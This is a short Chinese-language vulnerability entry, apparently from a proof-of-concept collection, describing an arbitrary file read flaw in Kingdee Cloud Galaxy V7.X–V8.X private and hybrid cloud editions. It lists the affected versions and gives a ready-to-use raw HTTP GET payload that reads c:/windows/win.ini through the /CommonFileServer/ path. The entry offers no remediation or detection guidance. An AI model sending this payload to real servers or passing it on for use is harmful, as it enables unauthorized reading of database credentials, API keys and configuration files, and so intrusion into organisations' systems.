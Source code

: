 **漏洞描述：**

金蝶云星空V7.X、V8.X所有私有云和混合云版本存在一个通用漏洞，攻击者可利用此漏洞获取服务器上的任意文件，包括数据库凭据、API密钥、配置文件等，从而获取系统权限和敏感信息。

**影响版本：**

金蝶云星空V7.X-V8.X所有私有云和混合云版本

**Payload：**

```
GET /CommonFileServer/c%3A%2Fwindows%2Fwin.ini HTTP/1.1
Host:host
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36 Edg/114.0.1823.79
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

---
